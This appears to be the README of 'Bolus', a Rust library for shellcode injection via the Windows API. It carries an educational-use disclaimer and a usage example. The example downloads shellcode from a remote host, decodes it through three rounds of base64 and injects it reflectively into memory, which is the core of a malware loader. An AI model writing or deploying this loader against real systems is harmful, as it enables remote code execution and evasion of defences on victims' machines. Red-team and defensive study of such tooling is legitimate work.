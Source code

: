# Bolus

Library for shellcode injection using the Windows API.

**WARNING: This code is for educational purposes only. The creator strongly urges you to only use this code in authorized contexts. Don't do crimes.**

## Usage


The following is an example implementation, which can be observed in [RustyNeedle](https://github.com/mttaggart/RustyNeedle):

```rust
use bolus::{
    inject,
    load,
    injectors::{
        InjectionType,
        InjectorType
    }
};

/// The URL where shellcode will be downloaded from
const URL: &str = "http://1.2.3.4/note.txt";
/// The # of base64 iterations to decode
const B64_ITERATIONS: usize = 3;

fn main() -> Result<(), String> {
    let injector = load(
        InjectorType::Base64Url((
            URL.to_string(),
            B64_ITERATIONS
        ))
    )?;
    inject(
        injector,
        InjectionType::Reflect,
        true
    )
}
```

## Documentation

Full docs at [docs.rs](https://docs.rs/bolus/0.1.1/bolus/)

